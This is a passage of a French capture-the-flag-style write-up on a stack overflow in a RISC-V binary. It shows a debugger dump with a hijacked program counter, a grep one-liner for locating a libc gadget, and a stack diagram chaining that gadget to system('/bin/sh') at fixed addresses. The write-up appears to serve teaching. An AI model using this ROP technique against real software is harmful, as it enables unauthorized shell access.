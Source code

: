 ```c
 S8   0x400081d030 (_rtld_local) —▸ 0x400081e290 ◂— 0x0
 S9   0x0
 S10  0x0
 S11  0x0
 T3   0x400089afc8 (free) ◂— 0xff8537837179c54d
 T4   0x76fc8
 T5   0x4000912950 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
 T6   0x1f25bc2
 SP   0x40008003e0 ◂— 0xc3c3c3c3c3c38241
*PC   0x4141414141414140 ('@AAAAAAA')
──────────────────────────────────[ DISASM / rv64 / set emulate on ]───────────────────────────────────
Invalid address 0x4141414141414140
```

On a bien réussi à avoir une segmentation fault, on peut maintenant commencer à chercher des gadgets pour faire un appel à `system("/bin/sh")`. Pour faire un appel à une fonction, l'ABI RISC-V spécifie que le premier paramètre doit être passé dans le registre A0. Idéalement il nous faudrait trouver un gadget qui charge RA depuis la stack `ld ra, n(sp)`, load A0 depuis la stack `ld a0, n(sp)`et finisse par un `ret`. Bien que ROPGadget fonctionne avec les binaires RISC-V j'ai préféré chercher les gadgets manuellement avec `riscv64-unknown-linux-gnu-objdump` dans la libc étant donné que l'ASLR est désactivé. Pour cela j'ai fait un grep un peu crade:


```text
riscv64-unknown-linux-gnu-objdump -axd /home/challenger/riscv/sysroot/lib/libc.so.6 | grep -P "ld\s+ra" -A5 -B5 | grep -P "ld\s+a0" -A5 -B5

[...]

3ba86:       60e2                    ld      ra,24(sp)
   3ba88:       6522                    ld      a0,8(sp)
   3ba8a:       6105                    add     sp,sp,32
   3ba8c:       8082                    ret

[...]
```

Parfait! On récupère l'adresse de `system` et d'une chaine de caractère "/bin/sh" dans la libc grâce à gdb et on va pouvoir finaliser notre exploit. Voilà à quoi devrait ressembler la stack pour que l'exploit fonctionne:

```goat
                    +------------------+
Node n°22   SP + 24 |   0x4000869688   | ---> <system>
                    +------------------+
Node n°21   SP + 16 |0x4242424242424242| ---> dummy à 16(sp)
                    +------------------+
Node n°20   SP + 8  |   0x400092c6c8   | ---> "/bin/sh"
                    +------------------+
Node n°19       SP  |0x4141414141414141| ---> dummy à 0(sp)
                    +------------------+
Node n°18   SP - 8  |   0x400085fa86   | -----.
                    +------------------+       |          +--------------+
                                                '------>  | ld ra,24(sp) |            +-------------------+
                                                          | ld  a0,8(sp) |       .--> | system("/bin/sh") |
                                                          | add sp,sp,32 |      |     +-------------------+
                                                          | ret          | ----'
                                                          +--------------+
```
